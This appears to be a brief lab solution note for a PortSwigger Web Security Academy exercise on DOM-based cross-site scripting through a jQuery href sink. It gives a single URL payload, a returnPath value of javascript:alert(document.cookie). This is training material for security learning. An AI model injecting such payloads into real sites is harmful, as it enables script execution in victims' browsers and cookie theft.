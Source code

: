 # Lab

https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-jquery-href-attribute-sink

## Payload

Dans l'URL : `/feedback?returnPath=javascript:alert(document.cookie);`